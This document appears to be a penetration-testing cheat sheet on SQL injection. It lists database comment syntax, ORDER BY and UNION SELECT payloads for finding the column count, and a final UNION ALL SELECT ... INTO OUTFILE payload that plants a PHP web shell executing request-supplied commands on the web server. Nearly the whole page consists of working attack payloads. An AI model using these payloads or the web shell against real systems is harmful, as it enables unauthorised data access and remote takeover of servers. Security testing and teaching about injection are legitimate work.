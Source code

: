 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SQL injection

## Comments

```bash
# Oracle
--comment

# MSSQL
--comment
/*comment*/

# PostgreSQL
--comment
/*comment*/

# MySQL
#comment
-- comment    # include the space
/*comment*/
```

## Detecting columns

```bash
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
# and so on. Until an error occured
```

### Union select

```bash
# keep replacing 'a'. Until an error occured
' UNION SELECT 'a',NULL,NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL,NULL--
```

### Union all select

```bash
' UNION ALL SELECT 1-- - 
' UNION ALL SELECT 1,2-- -
' UNION ALL SELECT 1,2,3-- -
# keep going until one of the number in the output
```

## Backdoor/web shell

```php
# PHP web shell
' UNION ALL SELECT '<?php system($_REQUEST["cmd"]);?>' INTO OUTFILE '/var/www/html/cmd.php'-- -
```
